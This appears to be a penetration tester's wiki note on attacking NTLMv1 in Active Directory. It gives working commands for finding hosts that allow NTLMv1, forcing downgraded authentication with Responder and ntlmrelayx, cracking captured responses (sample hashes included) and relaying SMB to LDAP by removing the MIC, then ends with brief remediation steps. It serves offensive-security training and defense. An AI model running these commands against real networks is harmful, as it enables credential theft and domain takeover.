```yaml
---
title: Attacking NTLMv1
---
```


NTLMv1 is the first version of the NTLM authentication protocol, the predecessor of NTLMv2 and insecure in multiple ways.

# Discovery

Search for [[notes/ad/gpo|GPOs]] that enable NTLMv1 by setting `HKLM\System\CurrentControlSet\control\LSA\LMCompatibilityLevel` to `2` or lower.

If you already have admin rights on a computer you can check this registry value trough *Remote Registry* ([source](https://github.com/Porchetta-Industries/CrackMapExec/pull/640)).

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb 192.168.178.0/24 -u jdoe -p 'passw0rd' -M ntlmv1
    ~~~

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass dc01.corp.local query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\Lsa' -v LMCompatibilityLevel
    ~~~

# Capture & Crack

[[notes/ad/ntlm-relay-source|Coerce NTLM authentication]] from your target and capture the responses.

Configure a static challenge.

~~~ bash
sudo sed -i 's/^Challenge = .*/Challenge = 1122334455667788/' /usr/share/responder/Responder.conf
~~~

Then try different downgrade techniques ([source](https://twitter.com/hackanddo/status/1420135330171207685), [source](https://twitter.com/ShitSecure/status/1599722053552066561)).

~~~ bash
sudo responder -A --disable-ess -I eth0
sudo responder -A --lm -I eth0
sudo responder -A --lm --disable-ess -I eth0
sudo impacket-ntlmrelayx -smb2support -ntlmchallenge 1122334455667788 -of ./hashes.txt
sudo impacket-ntlmrelayx -ntlmchallenge 1122334455667788 -of ./hashes.txt
~~~

Alternatively on Windows with [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (untested).

~~~ powershell
reg.exe add HKLM\System\CurrentControlSet\Control\Lsa /v LMCompatibilityLevel /t REG_DWORD /d 0 /f
Invoke-Inveigh -ConsoleOutput Y -Challenge 1122334455667788
~~~

Then continue with [[notes/cryptography/hash-cracking]] to turn the NTLMv1 response into an NT hash.
NTLMv1 is based on DES and cryptographically broken, because the DES key space can be fully enumerated with FPGAs.
[crack.sh](https://crack.sh) provides a service for cracking DES.

a) NTLMv1 without SSP

[crack.sh](https://crack.sh) cracks this responses for free trough a huge rainbow table.

Responder output: `[SMB] NTLMv1 Hash : hashcat::DUSTIN:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788`  
Input for [crack.sh](https://crack.sh): `NTHASH:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595`  

b) NTLMv1 with SSP/ESS

Such responses can be easily identified, because they contain a large amount of consecutive zeros.
Pass the output from Responder to [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) to get the input for [crack.sh](https://crack.sh).
Cracking requires full brute force and is not free.

~~~ bash
python3 ./ntlmv1.py --ntlmv1 'hashcat::DUSTIN:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788'
~~~

If [crack.sh](https://crack.sh) is currently down you can crack both NTLMv1 response variants with a beefy GPU and [[notes/tools/hashcat]].
See [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) for more details.
Responses captured from users can be looked up in a huge database with [shuck.sh](https://shuck.sh).

In any case the resulting NT hash can be used to forge a RC4 [[notes/ad/silver-ticket]], [[notes/ad/delegate2thyself]] or perform a [[notes/ad/dcsync]] in case of a domain controller.

References:

- [twitter.com/_EthicalChaos_/status/1710185074061152501](https://twitter.com/_EthicalChaos_/status/1710185074061152501), cracking NTLMv1 hashes takes two days with four RTX 3080s
- [NTLMv1 Multitool](https://github.com/evilmog/ntlmv1-multi)
- [Cracking NETLM/NETNTLMv1 authentication](https://crack.sh/netntlm/)
- [NetNTLMtoSilverTicket](https://github.com/notmedic/netntlmtosilverticket)

# Relay

Computers that still support NTLMv1 are a wonderful [[notes/ad/ntlm-relay-sink]], because NTLMv1 allows cross-protocol relaying from SMB to LDAP by dropping the MIC.
Additionally relay protections like SMB Signing and LDAP Singing don't apply to NTLMv1 and relaying from SMB to TLS endpoints like HTTPS and LDAPS is possible as long as EPA is not set to `required` because NTLMv1 does not support Channel Binding.

[[notes/ad/ntlm-relay-from-smb|Coerce NTLM authentication over SMB]] from a valuable computer and [[notes/ad/ntlm-relay-to-ldap|relay to LDAP]] on a domain controller.

~~~ bash
impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server -smb2support --no-dump --no-da --no-acl --no-validate-privs --remove-mic -i -t ldap://dc01.corp.local
~~~

References:

- [NetNTLMv1 Downgrade to Compromise](http://web.archive.org/web/20230901141443/https://www.r-tec.net/r-tec-blog-netntlmv1-downgrade-to-compromise.html)
- [Practical Attacks against NTLMv1](https://web.archive.org/web/20220916075004/https://www.trustedsec.com/blog/practical-attacks-against-ntlmv1/)
- [Relaying 101: NTLM Downgrade Attack](http://web.archive.org/web/20220822082322/https://luemmelsec.github.io/Relaying-101/#ntlm-downgrade-attack)
- [NTLMv1 vs NTLMv2: Digging into an NTLM downgrade attack](http://web.archive.org/web/20221122220544/https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/)

# Remediation

1. Analyze event 4624 on DCs to find applications that fall back to NTLMv1.
2. Disable NTLMv1 by setting the registry value `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\LMCompatibilityLevel` to `3` or higher.

References:

- [Audit use of NTLMv1 on a domain controller](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/audit-domain-controller-ntlmv1)
